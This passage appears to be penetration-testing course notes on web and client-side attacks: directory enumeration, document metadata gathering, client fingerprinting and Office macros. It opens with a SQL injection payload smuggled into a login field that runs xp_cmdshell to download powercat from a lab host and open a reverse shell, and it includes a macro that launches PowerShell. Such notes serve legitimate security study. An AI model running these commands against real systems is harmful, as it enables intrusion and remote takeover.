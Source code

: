 
;EXEC master.dbo.xp_cmdshell 'powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.202/powercat.ps1\");powercat -c 192.168.45.202 -p 4444 -e powershell"';--+//&ctl00%24ContentPlaceHolder1%24PasswordTextBox=test&ctl00%24ContentPlaceHolder1%24LoginButton=Login

** Make sure to go back to root directory before running
Powershell command to recursively search for file

```
Get-ChildItem flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

```
gobuster dir -u http://192.168.198.50 -x aspx -w aspx.txt --no-error
```

## Client-side attacks


### Info Gathering

can use 'exiftool' to investigate metadata on docs
-a display duplicate tags
-u display unknon tags

```
exiftool -a -u brochure.pdf
```

-x flag with gobuster searches for specific extensions
```
gobuster dir -u http://192.168.237.197 -x pdf -w /usr/share/dirb/wordlists/common.txt
```

### Client Fingerprinting

can use canarytokens with a link to get client info

### Exploiting MS Office

user must Enable Editing for the attack to take place

### Installing MS OFfice
need to use xfreerdp rather than rdesktop to have access

xfreerdp /u:offsec /p:password /v:192.168.20.20

### MS Office Macros

ActiveX Objects -> can access underlying operating system commands. achieved via wscript through windows host shell

```
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
